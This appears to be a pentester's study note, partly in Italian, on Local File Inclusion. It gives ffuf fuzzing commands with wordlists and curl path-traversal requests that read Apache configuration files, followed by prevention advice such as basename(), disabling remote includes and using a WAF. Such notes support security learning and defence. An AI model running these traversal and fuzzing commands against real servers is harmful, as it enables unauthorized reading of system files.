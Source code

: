 # scansioni automatiche 

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows

```shell
# con ffuf attenzione al filtro che tipicamente la pagina anche se non sta funzionando la LFI cmq e' status code 200 quindi usare i filtri sulle dimensioni per riuscire a capirci qualcosa

# scansione piu' precisa https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287


$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars
```

# Prevenzione

The most effective thing we can do to reduce file inclusion vulnerabilities is to avoid passing any user-controlled inputs into any file inclusion functions or APIs

The best way to prevent directory traversal is to use your programming language's (or framework's) built-in tool to pull only the filename. For example, PHP has basename(), which will read the path and only return the filename portion. If only a filename is given, then it will return just the filename. If just the path is given, it will treat whatever is after the final / as the filename. The downside to this method is that if the application needs to enter any directories, it will not be able to do it

Several configurations may also be utilized to reduce the impact of file inclusion vulnerabilities in case they occur. For example, we should globally disable the inclusion of remote files. In PHP this can be done by setting `allow_url_fopen` and `allow_url_include` to Off.
It's also often possible to lock web applications to their web root directory, preventing them from accessing non-web related files. The most common way to do this in today's age is by running the application within Docker.

The universal way to harden applications is to utilize a Web Application Firewall (WAF), such as ModSecurity. When dealing with WAFs, the most important thing to avoid is false positives and blocking non-malicious requests
